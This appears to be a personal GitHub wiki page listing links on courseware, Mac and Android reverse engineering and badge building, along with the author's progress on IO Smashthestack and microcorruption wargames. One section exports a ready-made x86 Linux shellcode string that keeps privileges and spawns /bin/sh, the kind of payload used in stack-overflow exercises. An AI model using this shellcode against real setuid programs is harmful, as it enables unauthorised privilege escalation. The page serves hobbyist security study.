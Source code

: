 ```yaml
---
layout: default
title: General Training 
---
```


## About this wiki

I needed a place to store various links and articles in a place that I could easily share
and update. As such this is the end result , hopefully each link will at some point be
accompanied by a blog post as well explaining in more detail what I thought or just
to give a solution to a RE puzzle.

## Running 

[Medals I Have acquired from various races](http://www.flickr.com/photos/29154557@N02/sets/72157635410311460/)

## General
* * * 

[Unv Of Japan](http://i-web.i.u-tokyo.ac.jp/edu/training/ss/lecture/new-documents/Lectures/)

[MIT Calculus Courseware](http://ocw.mit.edu/resources/res-18-006-calculus-revisited-fall-2010/index.htm)

## Reverse Engineering
* * * 

[Mac OS X Reverse Engineering , Beginner Tutorial](http://reverse.put.as/wp-content/uploads/2011/02/beginners-tut-II.txt)
[Hackfortress Reversing Challenges](https://github.com/peasleer/hackfortress)

## Android Reversing / Disassembly 
* * *

[Dalvik Bytecode](http://www.netmite.com/android/mydroid/dalvik/docs/dalvik-bytecode.html)

[Base 64 Encoder in C](http://base64.sourceforge.net/b64.c)

## Badge Building
* * *

[How to build a badge](/wiki/TheBuild.html)


## Shellcode to spawn a new shell

   export SHELLCODE=`echo -e "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"`

## CTF's attempted and progress

IO.Smashthestack.org
    -Furtherst Level : Level 10

microcorruption.com
    -Furtherst Level : Level 12

